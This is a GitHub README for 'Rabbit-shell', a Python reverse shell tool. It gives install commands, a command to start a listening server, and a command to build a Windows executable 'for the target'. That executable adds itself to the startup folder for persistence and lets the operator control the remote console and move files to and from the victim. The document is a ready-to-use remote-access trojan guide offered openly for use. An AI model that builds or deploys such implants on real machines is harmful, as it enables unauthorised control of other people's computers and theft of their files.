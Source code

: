 # Rabbit-shell

###### Rabbit shell reverse shell tool.



##  Installation.



### By pip.

```bash
pip install rabbit_shell
```



###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```



## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to
> - -i (optional) exe icon
> - -n (optional) exe name

###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```













## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
